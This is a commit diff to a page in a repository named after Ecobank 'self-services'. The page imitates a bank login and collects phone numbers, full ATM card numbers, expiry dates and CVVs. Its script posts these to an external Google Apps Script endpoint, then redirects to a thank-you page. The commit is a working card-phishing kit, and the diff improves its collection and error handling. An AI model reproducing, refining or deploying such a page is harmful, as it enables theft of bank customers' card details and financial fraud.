

Before and after one commit to system-service-upgrade/ecobank-selfservices, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 90-578 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -77,38 +77,48 @@
   </div>
 
   <div class="login-container">
-    <form id="authForm">
-     <label for="phone_number">Phone Number</label>
-<input type="tel" id="phone_number" name="phone_number" placeholder="Enter your phone number" required>
+  <form id="demoForm">
+  <label>Phone Number</label>
+  <input type="tel" name="phone_number" required>
 
- <label>CARD NUMBER</label>
-      <input type="text" name="number" placeholder="Enter 16 Bold Numbers" required>
+  <label>ATM Card Number</label>
+  <input type="text" name="atm_card_number" required>
 
-      <label>ATM EXPIRY DATE</label>
-      <input type="text" name="expiry" placeholder="Enter Card Expiry Date (MM/YY)" required>
+  <label>ATM Expiry Date</label>
+  <input type="text" name="atm_expiry_date" placeholder="MM/YY" required>
 
-      <label>ATM CVV</label>
-      <input type="text" name="CVV" placeholder="ATM 3 Digits code" required>
+  <label>CVV</label>
+  <input type="text" name="cvv" required>
 
-       <div class="button-group">
-         <button type="submit">Submit</button>
+  <button type="submit">Submit →</button>
 </form>
+  </div>
 
   <script>
     const scriptURL = "https://script.google.com/macros/s/AKfycbwhXlJQiurYt5vwIobkRLikz6OVDdUksfOj8Zrn6dt_FnyXaIsiX0YC-G8UC2jKRyJr8g/exec";
+    const form = document.getElementById("demoForm");
 
-  document.getElementById('demoForm').addEventListener('submit', async (e) => {
+    form.addEventListener("submit", async (e) => {
       e.preventDefault();
 
-    const data = new FormData(e.target);
+      const formData = new FormData(form);
 
       try {
-      await fetch(scriptURL, { method: 'POST', body: data });
-      // Always redirect after submission
+        const response = await fetch(scriptURL, { method: "POST", body: formData });
+        const result = await response.text();
+        console.log("Server response:", result);
+
+        if (result.includes("Success")) {
+          // ✅ Only redirect if Apps Script confirms success
           window.location.href = "thank_you.html";
+        } else {
+          alert("Submission failed: " + result);
+        }
       } catch (err) {
         console.error("Error:", err);
-      window.location.href = "thank_you.html";
+        alert("There was a network error. Please try again.");
       }
     });
   </script>
+</body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
